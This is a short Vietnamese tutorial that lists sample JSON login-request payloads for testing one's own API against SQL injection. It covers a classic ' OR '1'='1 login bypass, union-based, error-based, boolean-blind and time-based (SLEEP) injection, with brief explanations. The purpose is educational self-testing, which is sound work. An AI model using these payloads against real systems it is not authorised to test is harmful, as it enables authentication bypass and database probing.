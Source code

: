 Dưới đây là các **request** mẫu để bạn có thể thử **tấn công SQL Injection** vào API của mình, mỗi loại SQLi sẽ có một payload khác nhau. Bạn có thể copy và paste vào **Postman** hoặc **công cụ tương tự** để thử nghiệm.

---

## 1. **Classic SQL Injection (Login Bypass cơ bản)**

### **Request Body**:
```json
{
  "username": "' OR '1'='1",
  "password": "anything"
}
```

- **Giải thích**: Câu lệnh này sẽ **bỏ qua xác thực** vì `'1'='1'` luôn đúng. Điều này giúp bạn **đăng nhập bất kỳ** mà không cần đúng mật khẩu.

---

## 2. **Union-Based SQL Injection**

### **Request Body**:
```json
{
  "username": "' UNION SELECT 1, 'hacked'--",
  "password": "anything"
}
```

- **Giải thích**: `UNION SELECT` giúp kết hợp các kết quả của câu lệnh truy vấn gốc với câu lệnh khác. Payload này sẽ trả về một giá trị giả `'hacked'` thay vì username hợp lệ.

---

## 3. **Error-Based SQL Injection**

### **Request Body**:
```json
{
  "username": "' AND 1=CAST((SELECT version()) AS INT)--",
  "password": "anything"
}
```

- **Giải thích**: Payload này sẽ gây lỗi trên hệ thống khi cố gắng ép kiểu dữ liệu, từ đó **dò phiên bản cơ sở dữ liệu** nếu lỗi trả về thông tin về DB.

---

## 4. **Blind SQL Injection (Boolean-Based)**

### **Request Body (1 - Điều kiện đúng)**:
```json
{
  "username": "' AND 1=1--",
  "password": "anything"
}
```

### **Request Body (2 - Điều kiện sai)**:
```json
{
  "username": "' AND 1=2--",
  "password": "anything"
}
```

- **Giải thích**: **Blind SQLi** không trả về thông tin rõ ràng, nhưng nếu `1=1` đúng, ứng dụng sẽ phản hồi bình thường. Ngược lại, `1=2` sẽ khiến ứng dụng phản hồi khác đi. Dựa vào sự khác biệt này, bạn có thể dò các giá trị khác.

---

## 5. **Time-Based Blind SQL Injection**

### **Request Body**:
```json
{
  "username": "' OR SLEEP(5)--",
  "password": "anything"
}
```

- **Giải thích**: Payload này sẽ **delay** (trì hoãn) phản hồi của server trong 5 giây nếu câu lệnh SQL này được thực thi, giúp bạn nhận biết rằng hệ thống đang chạy một lệnh có chứa `SLEEP`, từ đó xác định có lỗ hổng.
